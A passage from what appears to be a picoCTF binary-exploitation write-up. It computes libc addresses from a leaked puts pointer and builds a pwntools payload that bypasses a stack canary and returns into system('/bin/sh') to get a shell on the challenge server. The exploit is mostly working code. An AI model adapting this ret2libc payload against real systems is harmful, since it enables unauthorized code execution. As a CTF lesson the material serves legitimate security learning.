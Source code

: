 # LIBC Calculations
To get the remote libc the address of puts will be places into libc.rip.
The libc found is \"libc6-i386_2.27-3ubuntu1.6_amd64.so\".
With all of this information it's time to calculate the addresses.
## Code to Calculate LIBC Addresses
```python
    libc_base = puts - lib.symbols["puts"] 
    binsh = libc_base + next(lib.search(b"/bin/sh")) 
    system = libc_base + lib.symbols["system"] 
```
This calculates the addresses to the different functions and addresses by finding the base address, and then adding the offsets from the libc itself.
# Final Payload
## Code for Payload
```python
    with pwn.remote("jupiter.challenges.picoctf.org", 43578) as io:
        puts = leak_puts(io)
        result = leak_canary(io)
        canary = result
        print(f"Canary = {canary}")
        print(f"Puts = {hex( puts )}")
        libc_base = puts - lib.symbols["puts"] 
        binsh = libc_base + next(lib.search(b"/bin/sh")) 
        system = libc_base + lib.symbols["system"] 
        payload = pwn.flat(
            b"A"*padding_canary,
            pwn.pack(int(canary,16)),
            b"A"*(padding-padding_canary-4),
            pwn.pack(system),
            pwn.pack(0x0),
            pwn.pack(binsh)
        )
        io.sendline(str(remote_guess))
        io.sendline(payload)
        io.interactive()
```
This pulls everything together.
It leaks the canary and libc addresses.
Then, it puts everything into a final payload and drops the shell.